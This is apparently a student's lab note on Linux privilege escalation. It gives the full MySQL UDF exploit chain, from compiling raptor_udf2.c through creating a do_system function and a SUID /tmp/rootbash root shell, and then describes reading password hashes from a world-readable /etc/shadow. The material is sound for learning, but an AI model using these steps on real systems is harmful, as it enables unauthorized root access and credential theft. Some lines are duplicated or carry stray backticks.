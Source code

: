 # Privilege escalation

This is a brief brain map on privilege escalation on linux system

## Service exploits
The MySQL service is running as root and the "root" user for the service does not have a password assigned. We can use a [popular exploit](https://www.exploit-db.com/exploits/1518) that takes advantage of User Defined Functions (UDFs) to run system commands as root via the MySQL service.

Compile the raptor\_udf2.c exploit code using the following commands => found on exploit db
```bash
gcc -g -c raptor\_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc  
```
Connect to the MySQL service as the root user with a blank password:
```
mysql -u root
```
Execute the following commands on the MySQL shell to create a User Defined Function (UDF) "do\_system" using our compiled exploit:
```mysql
use mysql;  
create table foo(line blob);  
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));  
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';  
create function do_system returns integer soname 'raptor_udf2.so';`
```
Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission:
```
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');`
```
Exit out of the MySQL shell (type **exit** or **\\q** and press **Enter**) and run the /tmp/rootbash executable with -p to gain a shell running with root privileges:
```
Exit out of the MySQL shell (type **exit** or **\\q** and press **Enter**) and run the /tmp/rootbash executable with -p to gain a shell running with root privileges:
```
now execute `/tmp/rootbash -p`
```
/tmp/rootbash -p`
```

**overview:**
My sql is runnig as root. we are able take advantage of it. all commads and queries mentioned above is commented on the exploitdb. all we need to do is find out privilege escalation vector with some reconnaissance

## Weak file permission 
### /etc/shadow readable
file permissions are another vector for privilege escalation.

The /etc/shadow file contains user password hashes and is usually readable only by the root user.
Note that the /etc/shadow file on the VM is world-readable:
Each line of the file represents a user. A user's password hash (if they have one) can be found between the first and second colons (:) of each line.
